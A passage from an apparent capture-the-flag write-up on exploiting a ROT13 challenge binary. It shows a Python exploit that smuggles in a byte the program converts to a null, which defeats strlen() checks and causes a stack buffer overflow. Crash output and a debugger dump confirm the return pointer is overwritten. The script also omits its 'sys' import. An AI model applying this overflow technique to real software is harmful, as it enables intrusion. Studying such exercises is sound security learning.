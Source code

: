 So it behaves as expected. Our "A"s have been converted to "N"s, and our "B"s to "O"s. Notice that only the "N"s have been printed out, and the "O"s have been left in the tmp buffer. However, there's still no overflow since we've entered more than 255 bytes. So how can we bypass the strlen checks?

If we look at the man page for strlen, it says that it reads up to the null byte to get the length of the string. Notice that a null byte is automatically appended in to our buffer whenever rotinput gets a "\n". However, it's possible to force our own null byte into the string. Recall that non-letters are encoded by subtracting 13 from it. So we just need to insert 0xd somewhere in our input which will cause it to be encoded into 0x00. 

```python
#!/usr/bin/env python

buf = "" 
buf += "A"*254 + "\n"   # write enough bytes to fill the buffer
buf += "\x0d"           # null terminate the string to fool strlen()
buf += "B"*300 + "\n"   # now we can overflow the buffer
sys.stdout.write(buf)
```

Test it out: 

```text
koji@pwnbox32:~/Desktop/rot13$ ./sploit.py | ./a.out 
ROT13-ATOR
Input strings. Send an empty newline to end.
Buffer is full, ending.
tmp: len:1 data:[
]
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

Segmentation fault (core dumped)
```

Nice, we crashed it! Let's see if we overwrote the saved return pointer: 

```
[----------------------------------registers-----------------------------------]
EAX: 0x100 
EBX: 0x4f4f4f4f ('OOOO')
ECX: 0xb7fc1b07 --> 0xfc28980a 
EDX: 0xb7fc2898 --> 0x0 
ESI: 0x0 
EDI: 0x4f4f4f4f ('OOOO')
EBP: 0x4f4f4f4f ('OOOO')
ESP: 0xbffff27c ('O' <repeats 200 times>...)
EIP: 0x8048799 (<main+332>: ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048796 <main+329>:    pop    ebx
   0x8048797 <main+330>:    pop    edi
   0x8048798 <main+331>:    pop    ebp
=> 0x8048799 <main+332>:    ret    
   0x804879a:   xchg   ax,ax
   0x804879c:   xchg   ax,ax
   0x804879e:   xchg   ax,ax
   0x80487a0 <__libc_csu_init>: push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xbffff27c ('O' <repeats 200 times>...)
0004| 0xbffff280 ('O' <repeats 200 times>...)
```
